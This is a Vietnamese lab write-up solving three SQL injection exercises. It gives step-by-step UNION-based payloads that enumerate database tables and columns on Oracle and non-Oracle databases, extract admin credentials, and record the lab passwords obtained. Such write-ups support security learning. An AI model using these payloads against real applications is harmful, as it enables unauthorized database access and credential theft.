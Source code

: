 ![image](https://hackmd.io/_uploads/rJz_k2kn6.png)


## Lab 5: SQL injection attack, listing the database contents on non-Oracle databases
Description: Sử dụng UNION attack để thu thập thông tin của các bảng trong database và lấy được password của admin rồi đăng nhập bằng admin

Luồng thực hiện sẽ như sau
```
' OR 1=1--
' ORDER BY 2-- 
' UNION SELECT NULL,NULL--
' UNION SELECT 'a','a'-- 
' UNION SELECT table_name,NULL FROM information_schema.tables-- 
#Một số bài khác có thể dùng UNION SELECT * FROM information_schema.tables WHERE table_schema=database()
-> 1 table đáng chú ý : users_mzrzdr
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_mzrzdr'-- 
-> Ta được 2 cột của username và password:username_wbuatx và password_gljvzb
' UNION SELECT username_wbuatx,password_gljvzb FROM users_mzrzdr--
-> Password của admin: q835f1h8mztlw0dlifhf
=> Đăng nhập và solve lab
```
![image](https://hackmd.io/_uploads/SJMnHn13a.png)

## Lab 6: SQL injection attack, listing the database contents on Oracle
Description: Sử dụng UNION attack để thu thập data từ các bảng rồi đăng nhập làm admin để pass bài lab này.
Bài lab này giống bài lab trước, nhưng mà Oracle có chút khác biệt so với các database khác, SELECT phải đi với DUAL, information_schema.tables thay bằng all_tables, information_schema.columns thay bằng all_tab_columns
```
' OR 1=1--
' ORDER BY 2-- 
' UNION SELECT NULL,NULL FROM DUAL--
' UNION SELECT 'a','a' FROM DUAL-- 
' UNION SELECT table_name,NULL FROM all_tables-- 
-> 1 table đáng chú ý : USERS_RDICMB
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_RDICMB'-- 
-> Ta được 2 cột của username và password:USERNAME_CZEXEA và PASSWORD_WKJECT
' UNION SELECT USERNAME_CZEXEA,PASSWORD_WKJECT FROM USERS_RDICMB--
-> Password của admin: 5gztht9nmdw1zvtxvev5
=> Đăng nhập và solve lab
```
![image](https://hackmd.io/_uploads/SyMQ1jl2a.png)

## Lab 7: SQL injection UNION attack, determining the number of columns returned by the query
Description: Xác định số cột trả về bởi câu query bằng cách sử dụng UNION attack
Do bài này chỉ yêu cầu xác định số cột, cho nên dùng ORDER BY để check số cột là được, sau đó dùng UNION SELECT để pass bài lab
```
' OR 1=1--
' ORDER BY 3--
' UNION SELECT NULL,NULL,NULL--
```
